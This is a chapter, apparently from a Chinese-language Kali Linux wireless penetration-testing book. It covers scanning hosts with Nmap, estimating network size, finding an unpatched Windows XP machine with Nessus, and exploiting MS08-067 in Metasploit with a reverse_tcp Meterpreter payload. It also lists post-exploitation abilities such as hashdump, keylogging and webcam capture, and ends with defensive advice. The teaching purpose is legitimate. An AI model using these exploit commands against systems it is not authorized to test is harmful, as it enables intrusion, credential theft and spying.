








# 第五章. 访问网络

我们来到了第五章！在本章中，我们将讨论一些与您作为无线渗透测试人员访问网络相关的话题。我们将对网络进行评估，以识别主机、确定网络规模和检测易受攻击的主机。在进行渗透测试时，了解网络上有多少主机是一个好主意，因为您绝对不希望漏掉任何内容。让我们开始本章，讨论为什么这很重要。

在本章中，我们将讨论以下话题：

+   识别主机

+   确定网络规模

+   检测易受攻击的主机

+   防范威胁

如果网络上有运行 Windows 2000 或 XP 的客户端，我们需要知道。用户完全意识到他们处于风险之中，因为他们使用的是较旧版本的 Windows 操作系统。Windows XP 可能在几分钟内被攻破！截至 2014 年 4 月，微软停止了对 Windows XP 的支持。Windows XP 已不再受支持，这意味着这个操作系统版本将吸引许多寻找漏洞的攻击者。背后的原因很简单，因为微软将不再发布任何安全补丁，所以如果攻击者在系统中发现漏洞，它将永远保持易受攻击状态。

我们将使用几个网络工具来确定网络上有多少主机、主机的操作系统版本、网络规模和易受攻击的主机。了解网络上的易受攻击部分，然后提供安全补丁或更新将有助于加强安全性。请记住，您不仅需要了解哪些系统和设备易受攻击，还需要了解您组织中的用户！

这可能是我看到的最大的安全威胁之一。您的员工需要接受安全意识培训，了解什么是好的，什么是坏的，以及应该做什么，不应该做什么。您还可能有员工在工作之外分享客户信息以获取潜在利益。请留意任何可能损害业务的可疑活动。

# 识别主机

本节主要介绍您可以用来识别网络主机的不同工具。这些工具将提供有关用户 IP 地址、MAC 地址、开放和关闭的端口、服务、操作系统等详细信息。在接下来的章节中，您可以看到 Kali Linux 拥有的一些可以帮助识别网络主机的工具列表。

## 网络映射工具

我们将专注于 Nmap 通过命令行界面。以下是一些可用于绘制网络地图的替代工具：

+   0trace

+   Angry IP Scanner

+   hping2 和 hping3

+   lanmap 和 lanmap2

+   TCP 路由跟踪

在这个演示中，您将学习如何使用 Nmap 来识别网络上的主机。这些工具在网络发现或需要知道网络服务是否运行（如 Telnet、SSH 或 FTP）时是我最喜欢的。让我们开始吧！

1.  打开终端。

1.  输入以下命令并按*Enter*键：

```
ifconfig

```

如您在以下截图中所见，我的私人 IP 地址是`192.168.1.5`。我的网关是`192.168.1.1`，所以下面我将向您展示如何扫描整个子网。



1.  输入以下命令并按*Enter*键：

```
nmap 192.168.X.0/24

```

这个命令将在`192.168.1.1`到`192.168.1.254`上的所有主机上启动一个 ping 扫描。当您收到输出时，您会注意到一些有趣的信息，如开放和关闭的端口、服务以及它们正在运行的操作系统。

如果主机感染了 Conflicker，这也是一个很好的技术。您需要学习一些 Nmap 的命令行开关来做到这一点。

如您在以下截图中所见，我能够检测到我的本地网络上的几个系统和设备：



您可以看到我的思科无线路由器和开放和过滤的端口：



1.  如果您在网络上有防火墙，您需要运行以下命令：

```
nmap –PN 192.168.X.0/24

```

此命令将所有主机视为在线并跳过主机发现。它用于绕过防火墙的常见过滤器，以确定防火墙是否在线，并在下面的屏幕截图中说明：


# 确定网络规模

确定网络规模并不难。如果您对网络有一些经验，那就更容易了。我将提供几个步骤，介绍如何确定网络规模和估计主机数量。让我们开始吧！

## 在 Kali Linux 中确定网络规模

在这个演示中，我们将确定 Kali Linux 中的网络规模。执行以下步骤：

1.  打开终端。

1.  键入以下命令并按*Enter*：

```
ifconfig | grep Mask

```

以下是输出：


您需要上下滚动以导航到您的网络配置。子网掩码显示在前面的屏幕截图中为`255.255.255.0`。如果我们通过一些子网计算来计算，我们可以确定这个网络可能有 1 到 254 个主机。

您可能会问，确定网络规模与渗透测试有什么关系？确定网络规模有助于渗透测试人员估计网络上的主机数量。当知道网络数量时，这可以帮助使渗透测试更容易，比如数据中心或大学校园等。

# 检测易受攻击的主机

这一部分非常简单。如果您碰巧认识一个不每天更新系统的人，他们很可能容易受到最新的安全威胁。截至目前，Windows XP 非常不安全，特别是如果用户的系统上没有安装任何更新或服务包。在下一个演示中，我将向您展示 Windows XP 中的漏洞。由于我手头没有有效的 Windows 7 或 8 副本，我无法演示这些操作系统。

让我们执行以下步骤：

1.  扫描目标以查看正在运行的服务：

该命令启用操作系统检测、版本检测、脚本扫描和跟踪路由。

1.  使用 Nessus 扫描漏洞。

### 注意

如果您是第一次运行 Nessus，请注意您需要先注册 Nessus。

1.  在下面的屏幕截图中，您将看到我们提供了要扫描漏洞的主机的 IP 地址。主机正在运行 Windows XP 专业版 Service Pack 3。

1.  如下截图所示，我们现在准备好点击**启动**以使用 Nessus 开始扫描：

1.  扫描完成后，我们需要分析报告：

1.  如您在我们的结果中所见，有几个易受攻击的服务：

如果您选择其中一个并查看插件的名称，它会显示`MS08-067`。我们将稍后使用这个来找到我们的漏洞利用程序。

1.  让我们开始搜索我们的漏洞利用程序。使用以下命令启动新的 Metasploit 控制台：

```
msfconsole

```

出现以下屏幕：



### 注意

Metasploit Framework 可以从[`www.rapid7.com/products/metasploit/download.jsp`](http://www.rapid7.com/products/metasploit/download.jsp)下载。Metasploit Framework 是由 H.D. Moore 于 2003 年开发的开源攻击框架。它用于测试目的入侵系统和设备。它为进行渗透测试、IDS 签名开发和漏洞研究提供信息。

1.  要搜索我们的漏洞利用程序，请键入以下内容：

```
search ms08

```

以下是输出：



1.  输入所有这些命令：

+   `use exploit/windows/smb/ms08_067_netapi`:此命令设置 Metasploit Framework 使用利用`ms08_067_netapi`

+   `set RHOST 192.168.1.30`:此命令将远程主机设置为您正在利用的用户

+   `set PAYLOAD windows/meterpreter/reverse_tcp`:此命令将有效负载设置为`reverse_tcp`，以便在成功利用后我们可以连接回主机

+   `set LHOST 192.16``8.1.5`:此命令设置本地主机，即 Kali Linux 主机的 IP 地址

+   `exploit`:此命令实时启动利用程序，以便您可以看到详细信息的操作

1.  如果您想运行不同的有效负载，请使用以下命令：

```
show payloads

```

在下面的屏幕截图中，我们可以看到我们之前输入的命令的输出：



如果操作正确，我们应该有一个 Meterpreter shell：



Meterpreter shell 是您和被利用主机之间完全独立的环境。它不是必需运行的，而更多是一个概念的证明。您可以执行程序、批处理脚本；浏览系统层次结构、hashdump、网络配置；甚至从网络摄像头中拍摄快照。那么如果有人能够在您身上获得一个 Meterpreter 会话会发生什么？他们可以在系统中创建后门并获得管理员权限。

恭喜！我们已成功在无线网络上检测和利用了一个易受攻击的主机。从这里，我们可以查看目标系统上运行的进程，截取屏幕截图，记录按键，甚至查看连接的网络摄像头。Meterpreter 是一个非常强大的 shell。一定要花些时间好好研究一下它。



# 防范威胁

我们总是需要知道如何保护自己免受这些威胁和攻击。接下来，我将讨论如何保护自己免受这些攻击。

## 防止主机的识别

为了保护自己免受威胁和风险，小型和大型企业应该拥有硬件防火墙，如 WatchGuard XTM 或 Cisco ASA，并使用自定义规则来阻止未使用的服务和端口。未使用的服务也应该从服务器或网络设备中禁用，以防止任何未经授权的访问。入侵检测系统应启用短信或电子邮件的警报功能。防火墙应记录协议并标记警报。

如果防火墙或 IDS 没有受到监控，那么您怎么知道您的组织是否受到了损害？每天的监控非常重要，以便及时应对外部网络上存在的威胁和风险。使用 VLAN 将网络彼此隔离。服务器、工作站、VoIP 和无线设备应该有自己的 VLAN，以防止网络感染和妥协。

## 防止他人确定您的网络规模

在确定网络规模时，您应始终加密任何敏感信息，例如网络图表、密码、日志、工作站和服务器信息以及配置设置。WatchGuard XTM 或 Cisco ASA 等硬件防火墙非常适合小型和大型企业，可以通过阻止 ICMP 来控制流量，并只允许来自受信任来源的流量。

## 保护易受攻击的主机

为了保护系统和网络设备免受利用，安装供应商提供的最新安全补丁。在可用时安装最新的操作系统和软件更新。如果在升级时遇到冲突，请向软件供应商报告问题。使用最强大的无线加密 WPA2 和 AES 加密算法以及复杂的密码。在所有工作站和服务器上运行具有最新病毒定义的实时防病毒扫描程序。为员工提供安全意识培训。

# 摘要

哇！在这一章中我们完成了三次演示！我希望你和我一样享受这些演示。这一章对我们来说非常有趣和有意思。让我们花点时间回顾一下你学到了什么。

在这一章中，我们讨论了在进行网络渗透测试时找到活跃主机数量的重要性。接下来，我们演示了如何使用 Kali Linux 识别网络上的主机。然后，我们演示了确定网络规模，并解释了作为渗透测试人员理解这一点的重要性。最后，我们演示了使用 Nessus 漏洞扫描器检测 Windows XP 中的漏洞，并列出了一些可以帮助减少风险的预防措施。

在下一章中，我们将介绍如何规划漏洞评估、配置 Nessus 漏洞扫描器、运行 Nessus 漏洞扫描器以及修补漏洞。我相信你和我一样都很兴奋。让我们继续下一章吧！
